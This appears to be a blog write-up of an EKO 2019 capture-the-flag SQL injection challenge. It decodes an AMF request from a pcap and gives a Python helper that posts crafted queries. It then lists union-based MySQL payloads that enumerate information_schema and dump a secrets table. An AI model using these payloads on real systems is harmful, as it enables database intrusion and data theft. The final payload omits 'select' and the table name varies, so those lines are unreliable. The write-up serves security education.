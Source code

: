 ```yaml
---
layout: post
title: Weirdo (SQLi writeup - EKO 2019)
---
```


Quick writeup of a SQL injection challenge.

<!--more-->
We start with a
[pcap](/book-of-gehn/assets/eko2019-writeups/weiro-dir/wtf.pcap)
of a HTTP communication between a client and a server.

It is only one request/response.

With ``wireshark`` we can see that the parties are talking using
[AMF](https://en.wikipedia.org/wiki/Action_Message_Format)

Here is the decoded ``POST``:

```
Hypertext Transfer Protocol
    POST / HTTP/1.1
    Content-type: application/x-amf
    Content-Length: 40
Action Message Format
    AMF version: 0
    Header count: 0
    Message count: 1
    Messages
        Target URI: EKO.CTF
        Response URI: /1
        Length: Unknown
        ECMA array (1 items)
            AMF0 type: ECMA array (0x08)
            Array length: 0
            Property 'q' String 'arg'
                Name: q
                    String length: 1
                    String: q
                String 'arg'
                    AMF0 type: String (0x02)
                    String length: 3
                    String: arg
            End Of Object Marker
```

### Brief AMF Disassemble

In particular, this is the hexdump of the AMF message:

```
0000   00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
0010   02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
0020   00 03 61 72 67 00 00 09
```

From the end to the begin, the ``00 00 09`` is the
``End of Object Marker``, ``02 00 03 61 72 67`` is the
``arg`` string, in ASCII prefixed with 2 bytes that
determines its length in big endian and all of that is
prefixed with on byte, ``02`` that says what follows is
a string.

I'm going to stop here as my understanding of AMF is quite
low and it deserves a separate post.

Playing with the value of the query, this ``arg``, is all
what we need to get some fun.

Replacing ``arg`` with ``'xx`` we get a database error showing
that the server is vulnerable to a SQL injection.

So you know what I'm talking about.


### Custom Queries

Before playing, we need a simple way to submit custom queries.

We treat the AMF message as an opaque string, the only thing
that we need is to inject an arbitrary string ``q`` prefixed
with its size.

```python
>>> from cryptonita import B

>>> hdr = '''
... 00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
... 02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
... '''

>>> hdr = B(hdr, encoding=16)
>>> eom =  B('00 00 09', encoding=16)

>>> def payload(q):
...     q  = B(q)
...     sz = B(len(q))
...
...     sz = sz.pack('>H') # uint16, big endian
...     return hdr + sz + q + eom
```

We wrap this into a HTTP POST.

```python
import requests

def post(q):
    url = 'https://wtf.eko.cap.tf/'
    data = payload(q)

    r = requests.post(url, data=data)
    for chunk in r.content.split(b'network'):
        chunk = B([c for c in chunk if chr(c).isprintable()])
        print(chunk)
```

The response is also a AMF message that we treat it as a binary blob.

For this reason we arbitrary split the response in chunks and we
filter out any non-printable char.

And *voila!* With ``post`` we can submit arbitrary queries and see their
responses.

### Prologue and Epilogue

We know that we are injecting in the middle of a SQL query but
we don't know *where*.

We may be injecting here

```
select ??? from ??? where ???='<here>' ;
```

but we may be injected here:

```
select ??? from ??? where ??? in (select ??? from ??? where ???='<here>' ???);
```

The possibilities are infinite.

If we *assume* the first case, we could try this:

 - a *prologue* of ``'`` to close the left side of the query
 - a *epilogue* of ``; --`` to close the statement and ignore anything
on the right.

```
>>> q = b"'; --"
```

The idea is that we transform the *host* query

```
select ??? from ??? where ???='<here>';
```

into this:

```
select ??? from ??? where ???=''; --';
```

But we were wrong. It failed.

Perhaps we are in the wrong spot, perhaps one of our injected characters
were filtered or our prologue and/or epilogue is wrong.

The ``--`` begins a comment. Each SQL engine has its own. The ``--`` works
in Oracle and under *some* conditions in MySQL.

The ``#`` works only in MySQL without any condition so we could try that:

```python
>>> q = b"'; #"
```

```
select ??? from ??? where ???=''; #';
```

And it worked! And we learnt that the database is a MySQL for free.

[Ref](http://www.sqlinjection.net/comments/)


### Deducing the Host Query Structure

Under the hypothetical host query:

```
select ??? from ??? where ???='<here>';
```

We could learn how many *columns* is using the ``select`` making the
query to order the results by the, let's say, the 10th column.

If it fails we now that it has less than 10 columns.

After some binary search, we learn that it has 5 columns:

```python
>>> q = b"' order by 5 ;#"    # 5 columns
```

```
select c1, c2, c3, c4, c5 from ??? where ???='' order by 5 ; #';
```

We can experiment further with:

```python
>>> q = b"' union select 99, 98, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' union select 99, 98, 97, 96, 95 from information_schema.tables ;#';
```

This also validates that the database engine is a MySQL (``information_schema``
is MySQL specific) and that we can *union* the results.

The last confirms that the host query is just a ``select`` and we are
injecting in the ``where`` clause.


### Information Gathering

With this we can learn what other tables are in the database:

```python
>>> q = b"' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#';
```

And with this one we can learn what columns has the table ``secret``, table that
found with the previous query and it has a interesting name.

```python
>>> q = b"' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#';
```

In both cases the ``and 1=0`` makes the *host* query to produce zero results
and it makes the output much cleaner.


### Profit!

Finally:

```python
>>> q = b"' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#"
>>> post(q)
<...>
EKO{ this is the flag }
<...>
```

```
select ??? from ??? where ???='' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#';
```
